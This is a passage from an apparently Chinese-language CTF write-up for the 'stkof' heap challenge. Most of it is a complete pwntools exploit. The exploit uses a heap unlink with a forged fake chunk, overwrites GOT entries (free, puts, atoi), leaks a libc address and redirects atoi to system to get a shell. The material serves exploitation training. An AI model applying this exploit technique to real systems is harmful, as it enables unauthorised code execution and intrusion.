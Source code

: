 接下来就是把 atoi 函数（菜单负责把输入转换为整数的函数）改成 system 函数，然后直接输入`/bin/sh`就成功 getshell 啦！

```python
payload=p64(system_addr)
edit(2,len(payload),payload)
link.sendline(b'/bin/sh')
link.interactive()
```

完整 exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# link=remote("node5.buuoj.cn",28828)
link=process("./stkof")
elf=ELF('./stkof')

def add(size):
    link.sendline(b'1')
    link.sendline(str(size))

def edit(index,size,content):
    link.sendline(b'2')
    link.sendline(str(index))
    link.sendline(str(size))
    link.sendline(content)

def delete(index):
    link.sendline(b'3')
    link.sendline(str(index))

add(0x98)
link.recvuntil(b'OK\n')
add(0x30)
link.recvuntil(b'OK\n')
add(0x80)

# gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu3_amd64/')
# pause()

chunkptrs=0x602140
fd=0x602138
bk=0x602140
next_prev=0x20
prev_size=0x30
# payload=p64(0)+p64(0x20)+p64(fd)+p64(bk)+p64(next_prev)+b'a'*0x8+p64(prev_size)+p64(0x90) #在chunk2当中伪造fakechunk还有next_previous
payload=p64(0)+p64(0x30)+p64(fd)+p64(bk)+b'a'*0x10+p64(prev_size)+p64(0x90)

link.recvuntil(b'OK\n')
edit(2,len(payload),payload) #通过chunk2控制chunk3的size

delete(3)
payload=b'a'*0x8+p64(elf.got['free'])+p64(elf.got['puts'])+p64(elf.got['atoi']) #0 1 2
edit(2,len(payload),payload)
payload=p64(elf.plt['puts'])
edit(0,len(payload),payload)
delete(1)
puts_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
```